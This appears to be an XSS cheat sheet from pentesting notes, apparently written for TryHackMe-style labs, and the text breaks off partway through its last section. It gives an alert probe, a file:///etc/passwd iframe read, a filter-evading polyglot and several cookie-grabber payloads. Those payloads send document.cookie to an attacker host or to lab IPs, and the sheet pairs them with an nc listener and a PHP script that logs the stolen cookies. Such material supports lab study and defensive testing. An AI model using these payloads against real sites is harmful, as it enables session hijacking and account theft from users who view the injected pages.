 - #### Enumeration :

```html
<script>alert(1)</script>
```

- ####  Files Reading:

```html
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```

- #### Polyglots :

```bash
# Code that can escape attributes, tags and bypass filters all in one.
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

- #### Cookie Grabber :

```bash
# Setting a listener on the attacker machine.
nc -lnvp PORT_NUMBER
```

```bash
# Injecting the payload into a form that will be viewed by someone else.
<script>fetch('http://ATTACKER_URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>

<img src="empty.png" onerror="fetch('http://10.10.77.50:8000?cookie='+document.cookie); " />

<script>var i=new Image(); i.src="http://10.10.193.5:8000?cookie="+btoa(document.cookie);</script>

# Once the form is viewed, we'll get the cookie in our listener.
```

- #### Cookie Grabber V2 :

> [!quote]        
> - A Cookie grabber/stealer used with an XSS vulnerability with remote execution/request.

1. **Creating a Grabber.php file with content :** 

```php
# Content of grabber.php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

2. **Hosting the file on a webserver :**

Check this : [Web-Server Hosting](#Web-Server%20Hosting)

3. **Inject JS script for XSS :**
